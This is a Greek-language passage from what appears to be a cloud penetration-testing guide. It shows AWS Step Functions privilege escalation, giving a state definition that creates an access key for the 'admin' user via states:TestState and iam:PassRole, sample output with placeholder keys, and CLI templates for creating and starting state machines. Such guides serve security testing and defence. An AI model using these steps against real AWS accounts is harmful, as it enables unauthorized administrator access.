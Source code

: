 Τα παρακάτω παραδείγματα δείχνουν πώς να δοκιμάσετε μια κατάσταση που δημιουργεί ένα access key για τον χρήστη **`admin`** εκμεταλλευόμενος αυτές τις άδειες και έναν επιτρεπτικό ρόλο του περιβάλλοντος AWS. Αυτός ο επιτρεπτικός ρόλος θα πρέπει να έχει οποιαδήποτε πολιτική υψηλών προνομίων συσχετισμένη με αυτόν (για παράδειγμα **`arn:aws:iam::aws:policy/AdministratorAccess`**) που επιτρέπει στην κατάσταση να εκτελεί την ενέργεια **`iam:CreateAccessKey`**:

* **stateDefinition.json**:
```json
{
"Type": "Task",
"Parameters": {
"UserName": "admin"
},
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"End": true
}
```
* **Εντολή** που εκτελέστηκε για να πραγματοποιηθεί η privesc:

{% code overflow="wrap" %}
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
"output": "{
\"AccessKey\":{
\"AccessKeyId\":\"AKIA1A2B3C4D5E6F7G8H\",
\"CreateDate\":\"2024-07-09T16:59:11Z\",
\"SecretAccessKey\":\"1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j1a2b3c4d5e6f7g8h9i0j\",
\"Status\":\"Active\",
\"UserName\":\"admin\"
}
}",
"status": "SUCCEEDED"
}
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη εκτέλεση και χειρισμός ροών εργασίας και πρόσβαση σε ευαίσθητους πόρους, που μπορεί να οδηγήσει σε σημαντικές παραβιάσεις ασφάλειας.

### `states:CreateStateMachine` & `iam:PassRole` & (`states:StartExecution` | `states:StartSyncExecution`)

Ένας επιτιθέμενος με το **`states:CreateStateMachine`**& **`iam:PassRole`** θα μπορούσε να δημιουργήσει μια μηχανή καταστάσεων και να της παρέχει οποιονδήποτε ρόλο IAM, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε άλλες υπηρεσίες AWS με τις άδειες του ρόλου. Σε αντίθεση με την προηγούμενη τεχνική privesc (**`states:TestState`** & **`iam:PassRole`**), αυτή δεν εκτελείται από μόνη της, θα χρειαστεί επίσης να έχετε τις άδειες **`states:StartExecution`** ή **`states:StartSyncExecution`** (**`states:StartSyncExecution`** **δεν είναι διαθέσιμη για τυπικές ροές εργασίας**, **μόνο για εκφρασμένες μηχανές καταστάσεων**) προκειμένου να ξεκινήσετε και να εκτελέσετε τη μηχανή καταστάσεων.

{% code overflow="wrap" %}
```bash
# Create a state machine
aws states create-state-machine --name <value> --definition <value> --role-arn <value> [--type <STANDARD | EXPRESS>] [--logging-configuration <value>]\
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]

# Start a state machine execution
aws states start-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]

# Start a Synchronous Express state machine execution
```